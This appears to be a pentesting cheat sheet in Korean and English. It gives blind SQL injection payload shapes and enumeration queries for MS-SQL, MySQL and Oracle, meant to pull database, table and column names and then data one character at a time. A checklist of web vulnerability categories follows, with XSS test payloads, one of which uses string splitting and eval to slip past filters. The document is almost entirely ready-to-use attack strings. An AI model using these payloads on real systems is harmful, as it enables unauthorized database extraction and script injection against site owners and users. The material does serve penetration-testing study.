 # [MS-SQL]  
## Shape  
``` sql
OO' and substring((query), 1, 1) < 'a'--  
```  

## get DB NAME  
``` sql
db_name()  
```
  
## Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'  
```

## Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```
  
## Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```
  
# [MySQL]  
## Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```  

## Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```
  
# [Oracle]   
## Shape   
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```
  
## Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```
  
## Get Table name   
``` sql
select table_name from all_tables;  
```
  
## Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
``` sql
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3  
```

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
